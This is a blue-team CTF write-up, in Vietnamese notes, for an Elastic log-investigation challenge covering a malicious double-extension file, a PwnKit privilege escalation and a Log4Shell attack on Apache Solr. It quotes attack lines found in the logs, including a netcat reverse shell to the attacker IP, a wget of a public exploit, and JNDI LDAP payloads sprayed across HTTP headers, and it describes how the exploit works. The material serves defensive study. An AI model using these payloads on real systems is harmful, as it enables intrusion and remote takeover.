---


[https://cyberdefenders.org/blueteam-ctf-challenges/elasticcase/](https://cyberdefenders.org/blueteam-ctf-challenges/elasticcase/)


Feb 2, 2022 @ 15:38:46.493 ahmed


	cmd.exe /c whoami /groups 


Feb 2, 2022 @ 16:58:10.802 cybery


	cmd.exe /c whoami /groups 





Kiểm tra eventiD 3 thấy


| Feb 2, 2022 @ 15:35:23.358  | 192.168.10.10 DESKTOP-Q1SL9P2     | 192.168.1.10 | C:\Users\ahmed\Downloads\Acount_details.pdf.exe | ahmed  |
| --------------------------- | --------------------------------- | ------------ | ----------------------------------------------- | ------ |
| Feb 2, 2022 @ 16:51:22.347  | 192.168.10.10<br/>DESKTOP-Q1SL9P2 | 192.168.1.10 | C:\Users\ahmed\Downloads\Acount_details.pdf.exe | cybery |
|                             |                                   |              |                                                 |        |


### Q1: Who downloads the malicious file which has a double extension? {#3547b0eb61a480959853c133c6979f04}


ahmed


Ta tìm không thấy eventID 11 nhưng có thể tìm thấy ở eventID 3 khi nó kết nối ra mạng để tải thêm nội dung


Hoặc khi tải về nếu file sẽ có eventID 15





C:\Users\ahmed\Downloads\Acount_details.pdf.exe
ta tìm thêm xem nó tải từ đâu và domain là gì





[ZoneTransfer]  ZoneId=3  ReferrerUrl=http://192.168.1.10:8000/  HostUrl=http://192.168.1.10:8000/Acount_details.pdf.exe  


:::tip

Ta có thể vào alert và tìm kiếm malware detection alert

:::





### Q2: What is the hostname he was using? {#3547b0eb61a480208cb7ccd0516fb440}


DESKTOP-Q1SL9P2


### Q3: What is the name of the malicious file? {#3547b0eb61a4805c834ff30fcccab3e6}


### Q4: What is the attacker's IP address? {#3547b0eb61a4805d9f05dba8e2ff760e}


192.168.1.10


Thay vì đó ta có thể dùng security event để kiểm tra





Kiểm ta thấy malicious file phải kết nối tới attacker và 192.168.10.10 DESKTOP-Q1SL9P2 là của bị hại


⇒ ip





### Q5: Another user with high privilege runs the same malicious file. What is the username? {#3547b0eb61a48040b675d67ff45dd824}


integrity level ở mức high , tức là admin





Tương tự chỉ có 2 user chạy file độc hại, chắc chắn kết quả phải là thằng còn lại





### Q6: The attacker was able to upload a DLL file of size 8704. What is the file name? {#3547b0eb61a480fe9cf8eff518cebb9f}





Thông thường thì ta đi tìm file dll luôn bằng event.code: 11


zmugju.dll


nmkpax.dll


Nhưng không đúng vì event code 11 không có file size





Feb 2, 2022 @ 16:58:12


mCblHDgWP.dll


Thường thì nếu log sinh ra từ AV hoặc EDR, threat intel hoặc rule của elk thì sẽ không có event code


### Q7: What parent process name spawns cmd with NT AUTHORITY privilege and pid 10716? {#3547b0eb61a48024b845c8fd17d90d19}





Lúc Feb 2, 2022 @ 17:10:47


rundll32.exe


Phân biệt một chút giữa 


| `process.pid`                   | `winlog.process.pid`                                                                                                        |
| ------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| Là định danh tiến trình         | Đây là tiến trình ghi lại dòng log này (ở trường hợp eventId 1 thì nó chính là sysmon)                                      |
| Nó khác nhau cho mỗi tiến trình | Nên mới giống nhau nhiều như vậy. <br/>Đổi từ 2496 qua 3044 thì khả năng cao là do sysmon bị reset. Hoặc bị kẻ gian tắt mất |


Ta kiểm tra một chút về priveEsc





Feb 2, 2022 @ 16:58:41.241 cmd.exe /c echo gnmjks &gt; \\.\pipe\gnmjks


	C:\Windows\system32\cmd.exe /c reg query "HKLM\Software\WOW6432Node\Npcap" /ve 2>nul | find "REG_SZ”


	C:\Windows\system32\cmd.exe /c ""C:\Program Files\VMware\VMware Tools\poweron-vm-default.bat"”


	C:\Windows\system32\cmd.exe /c sc.exe qc npcap


	C:\Windows\SYSTEM32\cmd.exe /c "C:\Program Files\Npcap\CheckStatus.bat”


### Q8: The previous process was able to access a registry. What is the full path of the registry? → kiểm tra thêm {#3547b0eb61a480c6bafad9910819fdb8}


ta tìm theo process.pid 11676


HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled


ta dùng thằng rundll32.exe trong alert luôn





### Q9: PowerShell process with pid 8836 changed a file in the system. What was that filename? {#3547b0eb61a480bf91c9d7d17cfb31a7}


Feb 2, 2022 @ 17:12:54.597 C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Windows\PowerShell\ModuleAnalysisCache





cái ancestry là thông tin của cha ông tiến trình này được mã hóa bằng base64 utf-8


process.entity_id: "cái_id_vừa_giải_mã_được” là ra


Ta thấy có action là overwrite đúng yêu cầu câu hỏi





### Q10: PowerShell process with pid 11676 created files with the ps1 extension. What is the first file that has been created? {#3547b0eb61a480d1a990c3b138e6e2e1}





Feb 2, 2022 @ 17:08:46.139 C:\Windows\Temp\__PSScriptPolicyTest_bymwxuft.3b5.ps1


### Q11: What is the machine's IP address that is in the same LAN as a windows machine? {#3547b0eb61a480e7a8d2fbd455f0c6e2}


Ta tìm theo host.name thì có 5 host trên hệ thống





Lần lượt tìm được ip của elastic là: 192.168.20.60


Ubuntu: 192.168.10.30


192.168.10.10 DESKTOP-Q1SL9P2


localhost.localdomain: 192.168.30.10


CentOs chính là root: 127.0.0.1, ::1


Vậy cùng LAN với windows là ubuntu: 192.168.10.30


Có thể dùng all host trong security





### Q12: The attacker login to the Ubuntu machine after a brute force attack. What is the username he was successfully login with? {#3547b0eb61a480489ab7f979728f06d3}


ta dùng host.name: "ubuntu" and event.action: "ssh_login" and event.outcome: failure





Tấn công liên tục vào ahmed và admin vào lúc Feb 2, 2022 @ 17:24:48.000. Ta tìm thời gian thành công ngay sau đó





Có thể dùng authentication trong ubuntu





ta cũng thấy là salem hiện thông tin là người đăng nhập thành công


### Q13: After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo? {#3547b0eb61a48050b505e26facefd6e3}


[host.name](http://host.name/): "ubuntu" and [user.name](http://user.name/): "salem" and [process.name](http://process.name/): wget với thời gian sau đó ta được





Feb 2, 2022 @ 17:44:54.561 wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py


CVE-2021-4034 là nằm trong công cụ pkexec của polkit (PolicyKit) là một ứng dụng được cài đặt trên hầu hết mọi linux distro để quản lý chính sách cấp quyền → privEsc


**Loại tấn công:** Đây là lỗ hổng **Leo thang đặc quyền cục bộ (Local Privilege Escalation - LPE)**.

**Mức độ nguy hiểm:** Cực kỳ nghiêm trọng. Bất kỳ người dùng nào trên hệ thống (dù là user quyền thấp nhất, không có mật khẩu sudo) cũng có thể khai thác lỗ hổng này để ngay lập tức chiếm được quyền **`root`** (quyền tối thượng trên Linux).


Thay vì hacker phải gõ thủ công hàng tá lệnh phức tạp, họ chỉ cần tải file Python này về máy nạn nhân và chạy nó. Quá trình script này hoạt động thường diễn ra như sau:

1. Nó tạo ra một thư mục đặc biệt có cấu trúc đánh lừa hệ thống.
2. Nó tự động biên dịch (compile) một đoạn mã C độc hại (thường là để gọi ra một cái shell mới `/bin/sh`).
3. Nó gọi lệnh `pkexec` nhưng cố tình truyền một danh sách tham số trống rỗng (điều kiện để kích hoạt lỗi).
4. Lỗi xảy ra khiến `pkexec` (đang chạy bằng quyền root) vô tình đọc các biến môi trường độc hại do script cài cắm (đặc biệt là biến `GCONV_PATH`), từ đó load cái thư viện C độc hại vừa tạo ở bước 2.
5. **Kết quả:** Biến shell của user thường thành một root shell.

### Q14: After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash? {#3547b0eb61a480b98941d6e9d008cc02}


Ta thấy đã có quyền root và commandline trống nhưu ở trên





Feb 2, 2022 @ 17:45:06.558 3a4ad518e9e404a6bad3d39dfebaf2f6


### Q15: Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command? {#3547b0eb61a480669026cf2be254e218}


Feb 2, 2022 @ 17:46:08.041 bash -i




- **Dòng 1 (17:46:08.040 -** **`fork`** **`sh`****)**: Mã khai thác PwnKit (hoặc một reverse shell) vừa chạy thành công. Để chạy các lệnh hệ thống, mã khai thác này tự động phân nhánh (fork) và gọi ra một shell cơ bản nhất là `sh` dưới quyền `root`.
- **Dòng 2 (17:46:08.041 -** **`exec`** **`bash -i`****)**: Vấn đề của cái shell `sh` vừa sinh ra ở trên là nó rất "ngu" (dumb shell). Nó không có dấu nhắc lệnh, không có lịch sử lệnh, không dùng được phím Tab để điền nhanh, và rất dễ bị treo. Vì vậy, ngay trong phần nghìn giây tiếp theo, kẻ tấn công lập tức gõ lệnh `bash -i` để **nâng cấp (upgrade)** cái dumb shell đó thành một shell tương tác hoàn chỉnh. Lúc này, trên màn hình của kẻ tấn công ở xa đã hiện lên dòng chữ `root@ubuntu:~#` và hắn bắt đầu lũng đoạn hệ thống.
- **Dòng 3 (17:46:16.993 -** **`end`** **`bash -i`****)**: Khoảng 8 giây sau, tiến trình này kết thúc. Có thể kẻ tấn công đã gõ lệnh `exit`, hoặc kết nối mạng của hắn bị đứt, hoặc hắn đã chuyển sang một tiến trình ngầm (backdoor) khác.

### Q16: What is the hostname which alert signal.rule.name: "Netcat Network Activity"? {#3547b0eb61a480dda695c7227d90cea0}


Tìm đến security → alert, không phải observability





### Q17: What is the username who ran netcat? {#3547b0eb61a480bca880c68a29b12c41}


solr


### Q18: What is the parent process name of netcat? {#3547b0eb61a4804493aae528abe3af49}





java


đang test kết nối về nc -e /bin/bash 192.168.1.10 9999


### Q19: If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command? {#3547b0eb61a480548e2af163d7eb49fb}


nc -e /bin/bash 192.168.1.10 9999


### Q20: From the previous three questions, you may remember a famous java vulnerability. What is it? {#3547b0eb61a4806080f6cf201ceaf0e0}


log4shell


### Q21: What is the entire log file path of the "solr" application? {#3547b0eb61a4802da340ea74ad29a0da}


tài khoản solr khả năng là một service account
Hệ thống Apache Solr của bạn đã bị dính lỗ hổng **RCE (Remote Code Execution - Thực thi mã từ xa)**. (Với mốc thời gian tháng 2/2022 và ứng dụng Java, khả năng rất cao đây là lỗ hổng **Log4Shell)**


Feb 3, 2022 @ 01:49:19.852 /var/solr/logs/solr.log





### Q22: What is the path that is vulnerable to log4j? {#3547b0eb61a4802e9b17d35981075b5a}


Thử tìm bằng network.protocol không thấy gì nhiều





thử tìm bằng log.file.path





Do linux coi mọi thứ là file nên ta có thể tìm trong filebeat mọi thứ liên quan tới hệ thống. Trên windows thì ta dùng winlog.channel: 

- Ví dụ: Trên Linux là `log.file.path: "/var/log/auth.log"`, thì trên Windows nó tương đương với `winlog.channel: "Security"`.
- Hoặc `winlog.channel: "System"`, `winlog.channel: "Application"`

Còn đối với log4j: `"/var/solr/logs/solr.log"` là log của riêng phần mềm Apache solr. Mọi request gửi đến solr đều được nó ghi chép lại bằng log4j

- Lỗ hổng Log4Shell không xảy ra khi phần mềm _chạy_ payload, mà xảy ra ngay tại khoảnh khắc phần mềm cố gắng **GHI LOG** cái payload đó. Nó tìm không thấy nội dung đó, thì đi ra ngoài mạng tìm luôn
- **`o.a.s.s.HttpSolrCall`**: http request tới Solr.
- **`path=/admin/cores`**: api quản trị của solr → nói thêm
- **`params={foo=...}`**: Kẻ tấn công đã bịa ra một tham số (parameter) có tên là `foo` trên thanh URL (ví dụ: `GET /solr/admin/cores?foo=${jndi...}`).
- **`${jndi:ldap://192.168.1.10:1389/Exploit}`**: dùng giao thức LDAP, kết nối tới máy chủ của hacker (IP `192.168.1.10` cổng `1389`), tải một file mã độc Java có tên là `Exploit.class` về và chạy nó.
- câu lệnh thực tế trông sẽ như thế này: `GET /solr/admin/cores?foo=${jndi:ldap://192.168.1.10:1389/Exploit} HTTP/1.1`
	- `${jndi:ldap://192.168.1.10:1389/Exploit}`, phần `ldap://` đóng vai trò là một **mệnh lệnh** kết nối ra internet lấy đồ về xài
- tuy hacker có thể lấy bất kỳ đường dẫn nào nhưng hắn vẫn chọn /admin/cores vì hành động nào chạm đến cores cũng phải mặc định ghi log
	- Trong thực tế hacker sẽ spraying vào mọi trường như này

	```c++
	GET /solr/admin/cores?test=${jndi:ldap://192.168.1.10:1389/Exploit} HTTP/1.1
	Host: muc-tieu.com
	User-Agent: ${jndi:ldap://192.168.1.10:1389/Exploit}
	Referer: ${jndi:ldap://192.168.1.10:1389/Exploit}
	X-Api-Version: ${jndi:ldap://192.168.1.10:1389/Exploit}
	Cookie: sessionid=${jndi:ldap://192.168.1.10:1389/Exploit}
	```


Ta dùng kĩ thuật phát hiện log4j


`host.name: * and log.file.path: "/var/solr/logs/solr.log"  and message: (*jindi* or *ldap*)`


Lúc `01:51:04`, hacker gửi payload JNDI nhắm vào đường dẫn `/admin/cores` của Apache Solr (ảnh hiện tại).





/admin/cores


### Q23: What is the GET request parameter used to deliver log4j payload? {#3547b0eb61a4807f89d1cd63d708a9f7}


foo


### Q24: What is the JNDI payload that is connected to the LDAP port? {#3547b0eb61a4808d85a1c5706d1ea96b}


`{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}`


[host.name](http://host.name/): * and log.file.path: "/var/solr/logs/solr.log"  và message có chứa jndi





# Tổng kết  {#3547b0eb61a4802d9e66ee072689318d}


## Nói thêm chút về log4j {#3547b0eb61a48024a4c9e0e665c7e4cb}


:::tip

Hacker không cần quan tâm bạn đang chạy phần mềm gì, đường dẫn nào. Hắn chỉ cần biết "Trường dữ liệu nào mà tao gửi lên sẽ bị mày ghi vào file log?".

:::


Các attack vector hacker sử dụng:


**A. User-Agent Header (Phổ biến nhất)**
Gần như 100% các máy chủ web (Nginx, Apache, Tomcat) đều ghi log lại xem người dùng đang dùng trình duyệt gì. Hacker dùng công cụ sửa cái Header này thành:
`User-Agent: ${jndi:ldap://[attacker.com/Exploit](https://attacker.com/Exploit)}`


**B. Form Đăng nhập (Login Forms)**
Khi bạn đăng nhập sai, hệ thống thường ghi log lại để cảnh báo.

- **Username:** Tên đăng nhập hacker gõ vào là `${jndi:ldap...}`.
- **Hệ thống ghi log:** `Failed login attempt for user: ${jndi:ldap...}`

**C. Ô Tìm kiếm (Search Bars)**
Trang web e-commerce, diễn đàn, wiki... đều có ô tìm kiếm.

- **Từ khóa tìm kiếm:** `${jndi:ldap...}`
- **Hệ thống ghi log:** `User searched for query: ${jndi:ldap...}`

**D. Các HTTP Headers khác**
Hacker thường rải thảm payload vào mọi header có thể để xem web app có tọc mạch ghi log cái nào không:

- `X-Forwarded-For: ${jndi...}` (Header giả mạo IP nguồn)
- `Referer: ${jndi...}` (Header cho biết từ trang nào chuyển tới)

Ở trong bài này thì nó sẽ log lại cái parameter trong http GET nên bị lưu lại

